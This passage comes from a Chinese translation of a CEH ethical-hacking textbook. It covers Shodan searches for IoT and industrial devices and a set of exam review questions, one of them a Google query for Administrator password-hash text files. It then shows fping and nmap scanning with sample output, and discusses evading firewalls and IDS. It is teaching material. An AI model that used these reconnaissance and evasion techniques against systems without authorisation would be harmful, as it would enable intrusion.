这些设备在渗透系统时非常有用。像 Satori 这样的恶意软件可以感染多个 IoT 设备，一旦被感染，这些设备就可以用来攻击其他系统。它们也可能是进入企业网络的良好起点，具体取决于设备。不过，搜索引擎在这方面也能帮助我们。Shodan (www.shodan.io) 是专门针对 IoT 设备的搜索引擎。Shodan 跟踪大量设备以及供应商、设备类型和功能。

Shodan 还需要你了解目标以及可用于识别这些设备的内容。图 4.21 显示了一个示例。搜索词是 port:20000 source address，用于识别分布式网络协议 (DNP) 3 设备。这是该网站可以提供很大帮助的另一个领域。搜索 DNP3 设备是由于点击了工业控制系统 (ICSs) 的链接并查看 Shodan 了解的不同协议而得出的。Shodan 还与 ICS 和工厂接口网络服务 (FINS)、公路地址可遥测变送器协议等进行关联，还有许多其他协议。还有针对不同供应商的搜索。

### 图 4.21 DNP3 的 Shodan 搜索



在统计中你可能注意到的一点是，美国在这些设备方面位居所有国家之首。Shodan 还会识别设备所在的组织。点击单个结果可提供更多详细信息，包括设备的位置。图 4.22 显示了一些结果，但它没有显示 Shodan 提供的地图，该地图据推测指示设备的确切位置。

### 图 4.22 Shodan 结果



在识别被视为 IoT 一部分的设备方面，Shodan 是一个优秀的资源。通过搜索 Shodan 数据库，你可以识别目标网络中可能存在的设备。

## 总结

在道德黑客方面，足迹分析和侦察是总体方法论中的重要活动。这是你收集大量日后将使用的数据的阶段。这也是一个你不想制造太多噪音的阶段。你正在悄悄接近某人以吓唬他们。如果你制造噪音，目标就不会有受惊的反应。这里也是一样。你希望提前完成工作，以便开始时不会产生大量可能导致你被发现的活动，而你不知道，下一刻你就被锁定了。

有多种免费且公开可用的情报来源。使用类似 SEC 的 EDGAR 数据库的来源，你可以获取关于公司的信息。招聘网站也可能提供日后有用的公司详细信息。这包括他们可能使用的技术，因为在招聘人员时，他们通常会提供职位要求，包括微软、红帽、思科和 Palo Alto Networks 等技术供应商。你还可以阅读员工的评论，这些评论可能包含有用数据。

社交网络站点也可以用于收集关于人员以及公司的信息。人们有时会发布关于其工作或公司的一般信息。社会工程学是一种常见的攻击技术，如果你知道如何针对个人，这种攻击技术可能会更成功。你还可以收集关于公司本身的信息。通常，公司会有社交网络形象。此外，还有像 LinkedIn 这样专注于商业和商业互动的网站。

互联网运行需要数据。这包括谁被分配了地址。这些分配通过 RIR 进行。你可以使用类似 whois 的工具从 RIR 收集一些这些数据。whois 程序也可用于收集关于域名的注册详细信息。这将包括地址、电话号码和联系信息。并非所有域名都会有这些信息，因为注册商有时会隐藏注册人的详细信息。你得到的将是注册商的联系信息和地址，而不是组织。你还将从中得到域名的注册 NS。这些被认为是该域名的权威 NS。

如果你能找到的话，DNS 包含关于公司的大量详细信息。获取所有主机的最快方法是进行区域传输，但不太可能允许区域传输。相反，你可能不得不求助于诸如暴力破解 DNS 请求之类的方法来猜测可能的主机名。由此，你将得到可能成为目标的主机名。你还将得到 IP 地址。这些 IP 地址可以通过 whois 运行以获取网络块和块的所有者。通过这样做，你可能会得到属于该公司的 IP 地址范围。

许多攻击通过 Web 接口进行。虽然收集关于 Web 服务器或网站使用的技术的详细信息并不完全是被动的，意味着使用第三方来源，但向 Web 服务器发送常见请求不太会被注意到。只要你不一次性发送太多请求或发送异常内容，你就会在所有其他常规请求的噪音中被淹没。

Google Hacking 是一种你可以用来缩小搜索范围并获得集中且相关结果的技术。Google Hacking 是一种利用 site、inurl、intext、filetype 和 link 等关键字来获得非常特定结果的技术。最有用的将是 site 关键字，这意味着你只在一个域内搜索。这意味着你只查看你正在测试的组织内的结果。如果你需要帮助识别可能帮助你发现漏洞的搜索词，可以使用 Google Hacking 数据库。

人们和企业经常使用具有网络连接但没有传统方式供用户与之交互的设备。这通常意味着这些设备可能容易受到攻击。所有这些设备都称为物联网 (IoT)。有类似 Shodan 的网站可用于识别这些嵌入式设备。Shodan 将提供关于设备的大量详细信息，包括 IP 地址及其位置。你应该能够使用类似 Shodan 的网站缩小范围，确定设备是否属于你的目标公司。

## 复习问题

你可以在附录中找到答案。

- 1. 如果你正在查询法国一家公司的 IP 地址，你会向哪个 RIR 查询详细信息？
  - A. ARIN
  - B. RIPE
  - C. AfriNIC
  - D. LACNIC

- 2. 你需要识别公司 Example, Inc. 的所有 Excel 电子表格，其域名为 example.com。你会使用什么搜索查询？
  - A. site:example.com files:pdf
  - B. site:excel files:xls
  - C. domain:example.com filetype:xls
  - D. site:example.com filetype:xls

- 3. 如果你发现一位同事在 pgp.mit.edu 上搜索，他们可能在寻找什么？
  - A. 电子邮件地址
  - B. 公司密钥
  - C. 高管姓名
  - D. 隐私政策

- 4. 运行 p0f 可以获取什么信息？
  - A. 本地时间
  - B. 远程时间
  - C. 绝对时间
  - D. 运行时间

- 5. 存储组织或企业域名记录的 DNS 服务器称为 ______ 服务器。
  - A. 缓存
  - B. 递归
  - C. 权威
  - D. 本地

- 6. 本地缓存 DNS 服务器在被请求时使用什么策略来查找记录？
  - A. 递归
  - B. 串行
  - C. 组合数学
  - D. 餐厅数学

- 7. 执行侦察时，你会使用招聘信息来做什么？
  - A. 高管人员
  - B. 使用的技术
  - C. 钓鱼目标
  - D. 财务记录

- 8. 可以使用什么工具从 PGP 服务器收集电子邮件地址：Bing、Google 或 LinkedIn？
  - A. whois
  - B. dig
  - C. netstat
  - D. theHarvester

- 9. 哪个社交网络站点最有可能用于收集关于公司的信息，包括职位？
  - A. Twitter
  - B. LinkedIn
  - C. Foursquare
  - D. Facebook

- 10. 你看到以下记录的文本——port:502。这可能指的是什么？
  - A. Shodan 搜索
  - B. IO 搜索
  - C. p0f 结果
  - D. RIR 查询

- 11. 你会使用 Wappalyzer 来做什么？
  - A. 分析 Web 标头
  - B. 分析应用程序代码
  - C. 识别 Web 标头
  - D. 识别 Web 技术

- 12. 你理想情况下会使用什么技术来获取与域关联的所有主机名？
  - A. DNS 查询
  - B. 区域复制
  - C. 区域传输
  - D. 递归请求


**13.** 关于 IP 地址的 whois 查询响应中，你不会期望找到哪些信息？
- A. IP 地址块
- B. 域名关联
- C. 地址块所有者
- D. 技术联系人

**14.** 使用以下 Google 查询时，你在寻找什么？
filetype:txt Administrator:500:
- A. 属于 Administrator 的文本文件
- B. 来自文件的 Administrator 登录
- C. 包含文本 Administrator:500: 的文本文件
- D. 500 个带有文本的管理员文件

**15.** 要获取域的邮件服务器列表，你会使用什么命令？
- A. whois mx zone=domain.com
- B. netstat zone=domain.com mx
- C. dig domain.com @mx
- D. dig mx domain.com

**16.** 运行命令 dig ns domain.com 会得到什么？
- A. domain.com 的邮件交换记录
- B. domain.com 的名称服务器记录
- C. domain.com 的缓存名称服务器
- D. 主机名 ns 的 IP 地址

**17.** 如果你想使用拥有的姓名或用户名定位某人的详细信息，会使用哪个网站？
- A. peekyou.com
- B. twitter.com
- C. intelius.com
- D. facebook.com

**18.** 如果你要查找目标公司的详细财务信息，使用哪个资源最有可能成功？
- A. LinkedIn
- B. Facebook
- C. EDGAR
- D. MORTIMER

**19.** 上市公司需要提交哪种财务申报文件，可提供年度报告？
- A. 10-Q
- B. 11-K
- C. 401(k)
- D. 14-A

**20.** 如果你要查询新西兰一家公司的信息，应该查询哪个 RIR 获取数据？
- A. AfriNIC
- B. RIPE
- C. APNIC
- D. LACNIC

# 第 5 章

# 扫描网络

本章涵盖以下 CEH 考试主题：

- 协议通信
- 技术评估方法
- 漏洞
- 漏洞扫描器
- 网络安全
- 端口扫描
- 安全测试方法论


在完成所有侦察和信息收集工作后，我们可以开始与目标及其网络中的系统进行交互。
此阶段需要来自侦察和足迹分析步骤收集的数据。
如果没有这些数据，你将不知道扫描什么。
当然，如果你与客户紧密合作（可以说是手挽着手），他们可能已经向你提供了很多通常需要通过侦察技术才能获得的细节。
无论哪种方式都可以，只要你在开始时明确项目的范围和规模，并且在开始直接与系统交互后，不超出与目标商定的内容即可。

## 道德须知

只是提醒一下，特别是当我们开始接触系统时，必须获得许可。
尽管我们只是讨论扫描而不进行利用，但扫描完全可能导致系统崩溃。
在非常脆弱的系统上，例如旧式嵌入式设备，一次简单的端口扫描就可能导致设备失效。
确保已获得目标/客户的许可，并且他们了解开始后可能发生什么。
要预料到意外情况，并告知你的客户/雇主。

首次与目标系统交互时的常见步骤是执行端口扫描。
端口扫描可识别连接到目标网络的系统上的开放端口。
端口扫描并非仅为了扫描而扫描。
端口扫描是识别在这些端口上监听的服务和应用程序的起点。
请记住，目标始终是识别目标网络上的问题，以便你的客户/雇主可以改善其安全态势。
识别应用程序可以帮助我们识别需要解决的漏洞。

仅仅识别服务和应用程序可能无法提供大量信息，而且它提供的信息可能会给你带来大量工作。
了解应用程序名称甚至版本，意味着你需要开始挖掘该应用程序和服务可能存在的潜在漏洞。
这就是为什么我们使用漏洞扫描器。
漏洞扫描器可以在该过程中节省时间。
不过，你不应该假设漏洞扫描器是万无一失的。
漏洞扫描器可能会出错——两端都可能出错，既可能漏掉漏洞，也可能报告实际上不存在的漏洞。
在这里，道德黑客的知识和技能很重要——要知道如何验证，知道什么是真实的，什么不是。

防火墙可能是个真正的麻烦，入侵检测（或防护）系统也是如此，尤其是在执行真正的红队测试、运维团队不知道你在做什么且你不希望他们知道的情况下。
这意味着这些技术可能会抑制或阻止试图进入网络以收集日后可用信息的行为。
系统上的端口可能是开放的，但在防火墙中是关闭的。
这限制了你访问这些应用程序的能力。
你的扫描尝试可能会被检测到，向安全和运维人员发出你正在做什么的警报，这可能意味着你会被彻底禁止。
根据项目规则，你可能不希望被检测到。
这意味着可能需要采用逃避技术，以确保你能继续进行而不被阻止。

实现这一目标的一种方法，同时也可以探测某些功能以识别可能的漏洞，就是使用数据包构造。
数据包构造意味着你绕过操作系统及其为网络传输正确创建所有数据结构的机制。
这样做的原因是错误地创建这些消息。
如果它们看起来不正确，可能会被防火墙或检测系统忽略。
这可能允许消息到达终点。

## Ping 扫描

与其盲目地向已识别的地址空间发送攻击，不如先识别这些地址空间中响应的系统。
响应是指当向其发送网络消息时，它们会对消息作出适当响应。
这意味着你可以在开始发起攻击或探测之前，先识别出哪些系统是活跃的。
确定哪些系统活跃的一种方法是执行 Ping 扫描。
Ping 扫描是指向网络上的每个系统发送 Ping 消息，因此称为“扫描”。
Ping 是一种 ICMP 回送请求，是一种常见的消息。
只要你不是以不寻常的数量或大小向目标发送这些消息，它们可能不会被注意到。
Ping 扫描不能保证成功，因为可能存在阻止外部网络 ICMP 消息的防火墙规则。

### 使用 fping

虽然有许多工具可以执行 Ping 扫描，但常用的一个是 fping。
这是一个专门用于向多个系统发送 ICMP 回送请求的工具。
在下面的代码清单中，你可以看到使用 fping 扫描我本地网络的示例。
与 fping 一起使用的参数是 aeg，其含义是 fping 显示活跃主机、显示用时，并从地址块生成目标列表。
你会在列表前面看到响应的主机列表。
之后，你会开始看到主机不可达消息，表明主机已关闭。
fping 会向系统发送多条消息，然后才放弃并判定其已关闭。
由于长度原因，此输出被截断，但如果没有 a 参数，列表末尾将是所有被标记为关闭的主机。
目前，我们得到的只是系统处于活跃状态的指示。

### fping 输出

```
$ fping -aeg 192.168.86.0/24
192.168.86.1 (10.3 ms)
192.168.86.2 (16.4 ms)
192.168.86.12 (27.7 ms)
192.168.86.21 (17.4 ms)
192.168.86.11 (173 ms)
192.168.86.20 (82.7 ms)
192.168.86.31 (0.04 ms)
192.168.86.30 (14.3 ms)
192.168.86.32 (16.4 ms)
192.168.86.35 (16.9 ms)
192.168.86.37 (21.7 ms)
192.168.86.38 (20.4 ms)
192.168.86.39 (22.2 ms)
192.168.86.22 (216 ms)
192.168.86.43 (15.6 ms)
192.168.86.44 (14.7 ms)
192.168.86.49 (0.37 ms)
192.168.86.50 (14.3 ms)
192.168.86.51 (18.8 ms)
192.168.86.52 (15.3 ms)
192.168.86.28 (294 ms)
192.168.86.58 (19.9 ms)
192.168.86.47 (375 ms)
192.168.86.53 (508 ms)
192.168.86.63 (404 ms)
192.168.86.160 (15.6 ms)
192.168.86.162 (25.7 ms)
192.168.86.170 (14.6 ms)
192.168.86.189 (18.9 ms)
192.168.86.196 (25.6 ms)
192.168.86.200 (32.7 ms)
192.168.86.205 (72.2 ms)
192.168.86.210 (18.3 ms)
192.168.86.245 (15.6 ms)
192.168.86.247 (23.4 ms)
192.168.86.250 (25.9 ms)
```


```
ICMP Host Unreachable from 192.168.86.31 for ICMP Echo sent to 192.168.86.4
ICMP Host Unreachable from 192.168.86.31 for ICMP Echo sent to 192.168.86.4
ICMP Host Unreachable from 192.168.86.31 for ICMP Echo sent to 192.168.86.3
ICMP Host Unreachable from 192.168.86.31 for ICMP Echo sent to 192.168.86.3
ICMP Host Unreachable from 192.168.86.31 for ICMP Echo sent to 192.168.86.7
ICMP Host Unreachable from 192.168.86.31 for ICMP Echo sent to 192.168.86.7
ICMP Host Unreachable from 192.168.86.31 for ICMP Echo sent to 192.168.86.6
ICMP Host Unreachable from 192.168.86.31 for ICMP Echo sent to 192.168.86.6
```

由于向 fping 传递了 -e 参数，它提供了已用时间。这是发送的消息和收到的响应之间的往返时间。
考虑到这一切都在本地网络上，即使 fping 运行在虚拟机上，而主机操作系统正在使用无线网络，其中一些往返时间相当高。

虽然有很多系统显示有响应，但这并不意味着它们是网络上仅存在的系统。由于这是本地网络，我们可以相当确定所有这些信息都是正确的。但是，基于网络和基于主机的防火墙也可能阻止这些 ICMP 回显请求。仅仅因为你没有收到响应，并不意味着主机未启动。这可能意味着有东西正在阻止消息。防火墙可能会以 ICMP 主机不可达进行响应，就像你在前面的代码中看到的那样，或者它可能只是丢弃该消息，这意味着将没有响应。不过，缺乏响应可能还有其他原因。

## 使用 MegaPing

另一种既可以执行 ping 扫描又可以执行多种其他功能的工具是 MegaPing。MegaPing 是一种基于 GUI 的工具，在 Windows 下运行。它将多种功能集成到单个界面中。可以使用 IP Scanner 工具完成 ping 扫描，你会在左侧列表中选择它。图 5.1 显示了运行 IP 扫描后的完整界面。默认情况下，列表中不包括 MAC 地址和主机名。但是，右侧有复选框，即使在运行扫描后也可以勾选，信息将被添加。

在左侧，你还会看到几个其他可供使用的工具。它在某种程度上成为网络故障排除的瑞士军刀。除了排查网络问题之外，还有一个端口扫描工具。我将在下一节更详细地介绍端口扫描。在你识别目标网络上的系统和服务时，还有其他枚举实用程序你可能会发现很有用。

### 图 5.1 MegaPing IP Scanner



### 动手实践

从 Magento Software 网站下载 MegaPing 的副本。使用 IP Scanner 运行 ping 扫描。务必识别所有系统的 MAC 地址。

ping 扫描可能很有启发性，但这只是一个开始。它可能仅用于了解你可能需要考虑测试的主机数量。ping 扫描只会给你有限的信息。仅仅知道一台主机是启动的（而且一台主机未启动的信息可能不可靠）并不能告诉你很多。最终，你想知道主机上运行了哪些服务。ping 扫描会让你了解哪些系统可能是可攻击的。这可能很有价值，具体取决于你如何进行测试以及你身处何处。你也可以考虑直接进行端口扫描，尤其是因为端口扫描仪通常会在端口扫描之前先进行一次 ping，以确保系统在发送端口探测之前是启动的。

## 端口扫描

让我们弄清楚这一点，以防有混淆。我们谈论的不是经过邮轮并窥视窗户。我们谈论的是网络通信设备。端口是操作系统网络栈中的一个构造。当应用程序具有网络服务功能时，它会绑定到一个端口，这意味着它保留该端口并注册应用程序以获取进入该端口的消息。系统接收到的任何寻址到某个端口的通信都会转发到注册到该端口的应用程序。当有应用程序监听端口时，它被视为开放。请记住，端口存在于传输层，因此应用程序决定是使用 UDP 还是 TCP 作为监听协议。提到这一点的原因是，端口扫描的目标是识别绑定到被标记为开放的端口上的软件。

TCP（如你所知道）使用三次握手来启动连接。为了完成握手，TCP 使用标志设置，这意味着有一组位被启用或禁用以设置或取消设置标志。三次握手使用 SYN 和 ACK 标志来完成连接过程。其他标志，例如 URG、PSH 和 FIN，用于其他目的，而 RST 标志用于让其他系统知道停止对接收消息中目标端口的通信。端口扫描仪利用协议中的已知规则来判断端口是否开放。

开放端口应使用 SYN/ACK 响应 SYN 消息。关闭端口应使用 RST 消息响应 SYN 消息。但是，如果我们向开放或关闭端口发送其他消息会发生什么？考虑到我们知道开放和关闭端口如何响应，我们为什么还要这样做呢？原因与防火墙和入侵检测系统等安全技术有关。其他 TCP 消息用于绕过这些设备，并在否则可能没有任何响应的情况下获得响应。协议预期的工作方式已有文档记录，因此网络栈实现遵循文档。有些交互根本没有文档记录，因此行为不被保证，因为它不是预期的。这些交互可用于从目标系统引出响应。UDP 是另一回事。从协议的角度来看，没有定义的方式来开始对话。UDP 消息从客户端发送到服务器，服务器决定如何响应。操作系统的网络栈除了在处理传输层头部后将消息传递给应用程序外，不发挥其他作用。这对端口扫描仪来说可能是一个挑战。原因是，由于没有定义的响应，很难确定没有响应是因为端口关闭，还是因为应用程序没有收到它预期的内容。也可能是监听该端口的服务器应用程序根本不响应。

由于没有定义的响应，端口扫描仪必须做出最佳猜测。如果对探测消息没有响应，端口扫描仪不会假设端口已关闭，因为它可能没有关闭。不仅应用程序可能只是没有响应，而且 UDP 消息在传输过程中可能丢失，因为协议中没有任何东西确保它能从端到端传输。因为两种情况都有可能，所以探测消息将被重新发送。每条消息之间有短暂的延迟。在消息之间带有延迟地发送多条消息，会导致 UDP 端口扫描所需时间比 TCP 扫描长得多。

如前所述，端口扫描仪在运行端口扫描之前可能会向目标发送 ICMP 回显请求。向不存在的主机发送成千上万条消息没有多大意义。此行为可以根据所使用的端口扫描仪进行控制。

## Nmap

事实上的标准端口扫描仪是 nmap，即 network mapper 的缩写。毕竟，如果它对 *The Matrix Reloaded* 中的 Carrie-Anne Moss 和 *Ocean's 8* 中的 Rihanna 来说足够好，那对我或你来说也应该足够好。这是一个自 1997 年以来就存在的程序，并且使用得如此普遍，以至于其他端口扫描仪实现了相同的命令行参数，因为它们非常知名。然而，它不仅仅是一个端口扫描仪；它的主要角色和其他功能只是 nmap 核心目的的扩展。

在端口扫描方面，Nmap 可以执行 UDP 扫描以及多种类型的 TCP 扫描。此外，Nmap 将检测操作系统类型、应用程序和应用程序版本。也许更重要的是，Nmap 支持运行脚本。这些脚本允许任何人扩展 Nmap 的功能。由 Lua 编程语言驱动的脚本引擎具有模块，脚本可以在其之上构建，以使探测系统的工作变得容易得多。

## TCP 扫描

由于这是最详细和最复杂的扫描类型，我将介绍 nmap 可以执行的不同类型的 TCP 扫描。首先，我们知道传输协议在头部中使用 2 个字节表示端口号。这意味着有 65,536 个可能的端口（0–65535）。扫描如此多的端口（尤其是考虑到其中绝大多数未被监听应用程序使用）非常耗时。为了提高效率，nmap 默认只扫描大约 1,000 个端口，不过你可以指定 nmap 要扫描的任何端口。这 1,000 个端口最有可能有监听服务。

TCP 扫描有多种类型。首先要了解的是 SYN 扫描。它有时被称为半开扫描，因为连接保持半开状态。Nmap 会向目标发送 SYN 消息。如果端口是开放的，它会响应 SYN/ACK 消息，而 nmap 会用 RST 消息响应，表示它不想继续连接。如果端口是关闭的，目标系统将用其自身的 RST 消息响应。在下面的代码清单中，你可以看到一个 SYN 扫描，它使用 -sS 作为参数调用。然后，你需要一个目标。此扫描是单个 IP 地址，但你也可以指定范围或网络块。


## 使用 Nmap 进行 SYN 扫描

```
$ nmap -sS 192.168.86.32
Starting Nmap 7.70 ( https://nmap.org ) at 2018-07-14 19:01 MDT
Nmap scan report for billthecat.lan (192.168.86.32)
Host is up (0.022s latency).
Not shown: 500 closed ports, 495 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
88/tcp open  kerberos-sec
445/tcp open  microsoft-ds
548/tcp open  afp
5900/tcp open vnc
MAC Address: AC:87:A3:36:D6:AA (Apple)

Nmap done: 1 IP address (1 host up) scanned in 3.69 seconds
```

为了演示将网络块作为目标的用法，我们可以使用全连接扫描。与将 RST 作为 SYN/ACK 的响应不同，nmap 会完成连接，并在连接完成后将其拆除。你将在以下代码清单中看到使用 CIDR 块作为目标地址。这意味着 nmap 将扫描整个子网。你还会注意到端口是指定的。与默认扫描 nmap 通常会扫描的 1,000 个端口不同，我们只会获取端口 80 和 443 开放的主机。网络上可能有许多主机不会对此类扫描作出响应。

## Nmap 全连接扫描

```
$ nmap -sT -p 80,443 192.168.86.0/24
Starting Nmap 7.70 ( https://nmap.org ) at 2018-07-14 20:44 MDT
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
Nmap scan report for testwifi.here (192.168.86.1)
Host is up (0.011s latency).

PORT   STATE SERVICE
80/tcp open  http
443/tcp closed https
MAC Address: 18:D6:C7:7D:F4:8A (Tp-link Technologies)

Nmap scan report for 192.168.86.2
Host is up (0.011s latency).

PORT   STATE SERVICE
80/tcp closed http
443/tcp closed https
MAC Address: 68:05:CA:46:70:88 (Intel Corporate)
Nmap scan report for 192.168.86.11
Host is up (0.022s latency).
PORT STATE SERVICE
80/tcp closed http
443/tcp closed https
MAC Address: C8:DB:26:02:EE:CC (Logitech)
Nmap scan report for harmonyhub.lan (192.168.86.12)
Host is up (0.014s latency).
PORT STATE SERVICE
80/tcp closed http
443/tcp closed https
MAC Address: C8:DB:26:02:89:62 (Logitech)
Nmap scan report for myq-d9f.lan (192.168.86.20)
Host is up (0.026s latency).
PORT STATE SERVICE
80/tcp open http
443/tcp closed https
MAC Address: 64:52:99:54:7F:C5 (The Chamberlain Group)
```

在输出中你可能会注意到两点：首先，我们不知道是什么应用程序。我们所知道的是正在使用的协议。当然，我们假设它是 Web 服务器，但是哪一个？即使我们知道操作系统是什么，我们也不能假设用作 Web 服务器的应用程序是哪一个。第二点要注意的是，除了 MAC 地址，你还会获得供应商信息。这里没有什么特别的。Nmap 会从数据库中查找 MAC 地址的组织唯一标识符（OUI）部分，并呈现查找结果。

Nmap 可以运行其他 TCP 扫描。其他扫描利用意外输入作为一种可能获得不同响应的方式。例如，以下代码清单是所谓的 Xmas 扫描。之所以这样称呼，是因为发送的数据包设置了 FIN、PSH 和 URG 标志，这使得数据包看起来像圣诞树（或 Xmas 树）一样亮起。你可能会很快注意到，这里我们不会像前面的代码中那样得到关于开放端口的指示。相反，nmap 告诉我们端口要么是开放的，要么是被过滤的。这样做的原因是，对于关闭的端口，系统会以 RST 响应。开放的端口根本不会响应，因为从协议的角度来看，这不是一个合法的数据包。如果 nmap 没有收到任何响应，就不清楚是因为网络设备丢弃了消息，还是因为系统根本没有响应非法消息。

## 使用 Nmap 运行 XMAS 扫描

```
$ nmap -sX 192.168.86.32
Starting Nmap 7.70 ( https://nmap.org ) at 2018-07-14 20:58 MDT
Nmap scan report for billthecat.lan (192.168.86.32)
Host is up (0.0076s latency).
Not shown: 995 closed ports
PORT STATE SERVICE
22/tcp open|filtered ssh
88/tcp open|filtered kerberos-sec
445/tcp open|filtered microsoft-ds
548/tcp open|filtered afp
5900/tcp open|filtered vnc
MAC Address: AC:87:A3:36:D6:AA (Apple)
Nmap done: 1 IP address (1 host up) scanned in 13.13 seconds
```

这里显示的端口与之前的 SYN 扫描相同。唯一的区别是 nmap 无法具体确定端口是开放还是被过滤。其他扫描，例如不设置任何标志的 Null 扫描，也会出于同样的原因显示为开放或被过滤。FIN 扫描也使用意外的标志集，因为 FIN 标志仅应在存在已建立连接的情况下发送。你也会从 FIN 扫描中得到开放或被过滤的结果。

## UDP 扫描

UDP 扫描比 TCP 扫描简单得多。UDP 扫描没有选项。Nmap 发送 UDP 消息，然后观察可能返回的任何响应。预期是，如果端口是关闭的，系统会以 ICMP 端口不可达消息响应。如果端口是开放的，服务可能会返回一些内容，也可能根本不响应。在以下代码中，你可以看到使用 nmap 运行的 UDP 扫描。你会注意到命令行中添加了一个新参数 -T 4。这设置了限速率。默认情况下，限速率设置为 3，这是消息传输的常见速率。如果你想更快，可以提高到 5。如果你想更慢，可能是为了避免被检测到，可以降低到 1。由于这是在我的本地网络上，我不关心传输速度有多快，因此我将限速率设置为 4。

```
$ nmap -sU -T 4 192.168.86.32
Starting Nmap 7.70 ( https://nmap.org ) at 2018-07-15 08:03 MDT
Nmap scan report for billthecat.lan (192.168.86.32)
Host is up (0.0053s latency).
Not shown: 750 closed ports, 247 open|filtered ports
PORT STATE SERVICE
123/udp open ntp
137/udp open netbios-ns
5353/udp open zeroconf
MAC Address: AC:87:A3:36:D6:AA (Apple)
Nmap done: 1 IP address (1 host up) scanned in 5.21 seconds
```

图 5.2 将向你展示使用数据包捕获程序 Wireshark 捕获这些请求后的样子。数据包列表顶部是运行 nmap 的系统发出的探测请求。如果你查看底部窗格中的数据包解码，你会看到数据包中没有数据。UDP 头是预期的 8 字节 UDP 头，之后没有有效载荷。数据包列表底部显示目标主机的 ICMP 端口不可达消息。

### 图 5.2 来自 Wireshark 的 UDP 扫描



你可以比较执行不同扫描所需的时间。SYN 扫描花费了 3 秒多一点，而 UDP 扫描花费了 5 秒多一点。你还会注意到 UDP 扫描大约也扫描了 1,000 个端口。不过，我们仍然面临不知道这些背后运行着什么应用程序的问题。这也是 nmap 可以为我们处理的事情。

## 详细信息

我们可以使用 nmap 来解决不知道应用程序的问题。我们可以使用版本扫描。当我们运行版本扫描（-sV）时，nmap 会连接到端口，并在必要时发出正确的协议命令以获取应用程序横幅。横幅是特定于协议的，可能包括软件名称和版本等信息。在以下代码清单中，你不仅可以看到之前见过的协议，还可以看到正在使用的软件和版本号。对于端口 22，系统正在运行 OpenSSH 版本 7.4。括号中的 2.0 表示它是协议的版本 2.0。这是服务在横幅中指示的内容。

## Nmap 版本扫描

```
$ nmap -sV 192.168.86.32
Starting Nmap 7.70 ( https://nmap.org ) at 2018-07-14 20:51 MDT
Nmap scan report for billthecat.lan (192.168.86.32)
Host is up (0.00083s latency).
Not shown: 995 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.4 (protocol 2.0)
88/tcp open kerberos-sec Heimdal Kerberos (server time: 2018-07-15 02:51:39Z)
445/tcp open microsoft-ds?
548/tcp open afp Apple AFP (name: billthecat; protocol 3.4; OS X
10.9 - 10.11; Macmini7,1)
5900/tcp open vnc Apple remote desktop vnc
MAC Address: AC:87:A3:36:D6:AA (Apple)
Service Info: OSs: OS X, Mac OS X; CPE: cpe:/o:apple:mac_os_x:10.9,
cpe:/o:apple:mac_os_x

Service detection performed. Please report any incorrect results at
https://nmap.org/submit/ .
